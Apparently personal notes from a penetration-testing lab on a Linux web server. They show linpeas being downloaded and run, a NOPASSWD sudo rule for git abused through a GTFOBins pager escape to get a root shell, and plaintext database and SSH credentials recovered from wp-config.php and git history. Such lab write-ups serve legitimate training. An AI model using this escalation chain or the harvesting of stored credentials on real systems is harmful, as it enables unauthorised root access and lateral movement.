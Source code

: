 ```yaml
---
tags: privesc,linpeas,gtfobin,git
---
```

cp /usr/share/peass/linpeas/linpeas.sh .
wget http://192.168.119.5/linpeas.sh


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                             
Matching Defaults entries for daniela on websrv1:                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User daniela may run the following commands on websrv1:
    ==(ALL) NOPASSWD: /usr/bin/git==




╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 www-data www-data 2495 Sep 27 11:31 /srv/www/wordpress/wp-config.php                                                                                                                          
==define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'DanielKeyboard3311' );==
define( 'DB_HOST', 'localhost' );

![[gtfobin.png]]

#gtfobin


```
sudo git -p help config

...

       •   no section or name was provided (ret=2),

       •   the config file is invalid (ret=3),

!/bin/bash

root@websrv1:/home/daniela# whoami
root
```


```
root@websrv1:/home/daniela# cd /srv/www/wordpress/

root@websrv1:/srv/www/wordpress# git status
HEAD detached at 612ff57
nothing to commit, working tree clean

root@websrv1:/srv/www/wordpress# git log
commit 612ff5783cc5dbd1e0e008523dba83374a84aaf1 (HEAD -> master)
Author: root <root@websrv1>
Date:   Tue Sep 27 14:26:15 2022 +0000

    Removed staging script and internal network access

commit f82147bb0877fa6b5d8e80cf33da7b8f757d11dd
Author: root <root@websrv1>
Date:   Tue Sep 27 14:24:28 2022 +0000

    initial commit
```

```
root@websrv1:/srv/www/wordpress# git show 612ff5783cc5dbd1e0e008523dba83374a84aaf1
commit 612ff5783cc5dbd1e0e008523dba83374a84aaf1 (HEAD, master)
Author: root <root@websrv1>
Date:   Tue Sep 27 14:26:15 2022 +0000

    Removed staging script and internal network access

diff --git a/fetch_current.sh b/fetch_current.sh
deleted file mode 100644
index 25667c7..0000000
--- a/fetch_current.sh
+++ /dev/null
@@ -1,6 +0,0 @@
-#!/bin/bash
-
-# Script to obtain the current state of the web app from the staging server
-
-sshpass -p "dqsTwTpZPn#nL" rsync john@192.168.50.245:/current_webapp/ /srv/www/wordpress/
-
```

#john #ssh #sshpass 
